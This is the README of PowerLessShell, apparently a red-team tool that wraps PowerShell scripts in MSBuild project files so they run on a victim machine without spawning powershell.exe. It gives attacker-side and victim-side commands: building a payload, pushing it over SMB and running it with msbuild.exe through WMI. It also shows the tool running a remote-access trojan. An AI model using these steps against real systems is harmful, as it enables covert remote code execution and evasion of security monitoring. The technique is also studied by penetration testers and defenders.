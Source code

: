 # PowerLessShell

PowerLessShell rely on MSBuild.exe to remotely execute PowerShell scripts and commands without spawing powershell.exe

# Usage

Attacker side
```
$ python PowerLessShell.py path_to_powershellscript > payload
```

Victim side (Push the file using SMB. Execute the following command using WMI)
```
cmd.exe /c C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe payload
```

# Example

The following example is running the RC4 RAT https://github.com/Mr-Un1k0d3r/RC4-PowerShell-RAT without running a single instance of PowerShell

![PowerLessShell](https://ringzer0team.com/powershellless.png)

# TODO 
Use impacket library to automate the file push and execution of the msbuild command.

# Credit
Mr.Un1k0d3r RingZer0 Team 2017

